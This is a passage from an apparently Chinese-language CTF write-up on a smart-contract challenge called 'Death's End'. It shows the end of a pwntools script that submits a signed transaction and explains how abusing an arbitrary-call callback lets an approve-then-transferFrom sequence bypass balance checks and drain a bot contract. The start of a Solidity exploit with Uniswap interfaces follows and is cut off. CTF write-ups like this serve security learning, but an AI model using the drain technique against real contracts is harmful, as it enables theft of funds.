 ```python
r.sendlineafter(b'Address: ', acc.address.encode())
r.sendlineafter(b'Choice: ', b'2')
r.sendlineafter(b'Raw transaction: ', signed.rawTransaction.hex().encode())
r.interactive()
```

## Death's End

本题和上一题相比，`arbitrage` 函数完全加上了对余额的检查，而 `uniswapV2Call` 函数可以发出任意调用了。

为了清空余额，除了直接转账，也可以先 approve，然后再由他人转走。这样就能绕过检查。

```solidity
pragma solidity =0.8.10;

interface Bot {
    function uniswapV2Call(address sender, uint, uint, bytes calldata data) external;
}

interface IUniswapV2Factory {
    event PairCreated(address indexed token0, address indexed token1, address pair, uint);

    function feeTo() external view returns (address);
    function feeToSetter() external view returns (address);

    function getPair(address tokenA, address tokenB) external view returns (address pair);
    function allPairs(uint) external view returns (address pair);
    function allPairsLength() external view returns (uint);

    function createPair(address tokenA, address tokenB) external returns (address pair);

    function setFeeTo(address) external;
    function setFeeToSetter(address) external;
}

interface IUniswapV2Pair {
    event Approval(address indexed owner, address indexed spender, uint value);
    event Transfer(address indexed from, address indexed to, uint value);

    function name() external pure returns (string memory);
    function symbol() external pure returns (string memory);
    function decimals() external pure returns (uint8);
    function totalSupply() external view returns (uint);
    function balanceOf(address owner) external view returns (uint);
    function allowance(address owner, address spender) external view returns (uint);

    function approve(address spender, uint value) external returns (bool);
    function transfer(address to, uint value) external returns (bool);
    function transferFrom(address from, address to, uint value) external returns (bool);

    function DOMAIN_SEPARATOR() external view returns (bytes32);
    function PERMIT_TYPEHASH() external pure returns (bytes32);
    function nonces(address owner) external view returns (uint);

    function permit(address owner, address spender, uint value, uint deadline, uint8 v, bytes32 r, bytes32 s) external;

    event Mint(address indexed sender, uint amount0, uint amount1);
    event Burn(address indexed sender, uint amount0, uint amount1, address indexed to);
    event Swap(
        address indexed sender,
        uint amount0In,
        uint amount1In,
        uint amount0Out,
```